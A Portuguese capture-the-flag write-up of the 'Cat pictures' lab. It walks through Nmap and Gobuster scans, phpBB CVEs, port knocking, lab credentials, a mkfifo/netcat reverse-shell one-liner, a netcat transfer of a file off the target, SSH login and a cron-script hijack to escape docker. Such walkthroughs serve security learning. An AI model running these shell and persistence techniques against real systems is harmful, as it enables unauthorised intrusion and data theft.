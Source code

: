 # _**Cat pictures CTF**_
![](cat.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -Pn [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website na porta 8080  
Vamos realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos diversos diretórios que pdemos tentar acessar, mas ao tentar, a maioria retorna como _forbidden_  
Sabemos que o website é _powered by phpBB_  
Alterando o endereço, conseguimos encontrar sua versão com: http://[ip_address]:8080/docs/changelog.html  
Mesmo com _docs_ dando _forbidden_, ainda conseguimos acessar _changelog.html_ e sua versão: 3.3.x  
Para sabermos a versão exata, vamos executar o comando ```curl```  
> ```bash
> curl http://[ip_address]:8080/docs/CHANGELOG.html | grep -i "phpBB 3.3"
> ```

E temos sua versão: 3.3.0  
Pesquisando com o auxílio do GPT, temos algumas falhas das quais podemos explorar:
* **XSS**: CVE-2020-10580
* **Open Redirect**: CVE-2020-10581
* **CSRF/Config leak**: CVE-2020-8228

## _**Ganhando acesso**_

Após algum tempo tentanto cada uma, não obtive nenhum resultado  
Vamos continuar  
Investigando mais o site, uma peculiaridade  

![](knock.jpg)

Pesquisando um pouco, encontra-se uma técnica conhecida como _**port knocking**_  
É é uma técnica usada para “esconder” portas de serviços, de forma que elas só abram depois que uma sequência secreta de conexões em portas específicas for feita  
E existe uma ferramenta para realizar tal tarefa: <mark>knockd</mark>  
> ```bash
> knock [ip_address] [port1], [port2], ..., [portN]
> ```

Realizando novamente um scan com **Nmap**, temos resultado!  
A porta 21 - FTP está aberta  

![](ftp_open.jpg)

Realizamos login via FTP e então pegamos o arquivo que está lá

![](ftp_get.jpg)

Parece que temos um usuário e login:
* **usuário:** catlover
* **senha:** sardinethecat

Vamos utilizar a ferramenta ```netcat``` para fazer login na porta 4420  
> ```
> nc [ip_address] [port]
> ```
![](net_log.jpg)

Após o login, precisamos melhorar essa nossa _shell_  
Vamos primeiro ligar nosso ```nc``` na porta 4444  
Em seguida, executamos o comando abaixo
> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [port] [port] >/tmp/f
> ```
![](shell.jpg)

Conseguimos uma _shell_ melhor  
E para deixar ainda mais prático, vamos executar o comando: ```/bin/bash -i```  
Continuando nossa investigação, temos um arquivo _**runme**_ no diretório do usuário, mas não podemos executá-lo  
Vamos tentar puxar ele para a nossa máquina  
> ```bash
> nc -lp [port] > runme
> ```
> ```bash
> nc -w 3 [ip_adderss] [port] < /home/catlover/runme
> ```
![](nc_transfer.jpg)

Tentando executar o arquivo na nossa máquina, é necessário senha  
Tentamos a qual nos foi fornecida e nada  
Vamos tentar outros meios  
Primeiro, ```strings```  

No retorno, temos uma chave SSH e também um usuário  
Executamos o arquivo e inserimos a senha descoberta anteriormente com o comando ```strings```  
Parece que é gerado uma chave _id_rsa_  

Vamos executar na máquina-alvo  
Primeiro, executamos novamente o arquivo _runme_  
Em seguida, verificamos se a chave foi gerada em _/home/catlover/_  
Por último, transferimos para nosso computador via ```netcat``` a chave e tentamos fazer login via SSH, dando as permissões necessárias
> ```bash
> ssh -i id_rsa catlover@[ip_address]
> ```
![](ssh_login.jpg)

Temos logina via SSH!  

## _**Escalando privilégios**_
Apesar de termos conseguido a primeira flag, parece que estamos dentro de um _docker_  

![](docker.jpg) 

Vamos tentar escapar  
Primeiro, verificamos o arquivo _bash_history_  

![](bash_hist.jpg)

Parece que o arquivo _/opt/clean/clean.sh_ faz parte do _cronjob_ e é executado  
Vamos alterar este arquivo para conseguirmos um verdadeiro _shell_  

![](clean_altered.jpg)  

Basta aguardar pela conexão e então, adquirir a última flag!
